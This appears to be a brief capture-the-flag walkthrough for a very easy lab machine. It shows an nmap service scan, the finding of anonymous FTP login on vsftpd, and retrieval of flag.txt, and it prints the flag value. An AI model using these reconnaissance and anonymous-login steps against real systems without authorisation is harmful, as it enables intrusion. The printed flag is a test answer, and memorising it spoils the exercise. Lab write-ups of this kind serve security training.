 # CTF Walkthrough: Fawn

## Table of Contents
- [1. Introduction](#1-introduction)
- [2. Steps](#2-steps)

---

## 1. Introduction

**Category:** [File Trainsfer Protocol (FTP)]  
**Difficulty Level:** Very Easy   
**CVE(s) involved:** -

---

## 2. Steps

1. Service Enumeration
    - Command: `nmap -sV -sC 10.129.82.177`
        - Output:
            ```
            PORT   STATE SERVICE VERSION
            21/tcp open  ftp     vsftpd 3.0.3
            | ftp-syst:
            |   STAT:
            | FTP server status:
            |      Connected to ::ffff:10.10.14.170
            |      Logged in as ftp
            |      TYPE: ASCII
            |      No session bandwidth limit
            |      Session timeout in seconds is 300
            |      Control connection is plain text
            |      Data connections will be plain text
            |      At session startup, client count was 3
            |      vsFTPd 3.0.3 - secure, fast, stable
            |_End of status
            | ftp-anon: Anonymous FTP login allowed (FTP code 230)
            |_-rw-r--r--    1 0        0              32 Jun 04  2021 flag.txt
            Service Info: OS: Unix
            ```

2. Log in to FTP with Anonymous
    - Command: `ftp anonymous@10.129.82.177`

3. Get Flag
    - Command: `get flag.txt`
    - Flag : 035db21c881520061c53e0536e44f815
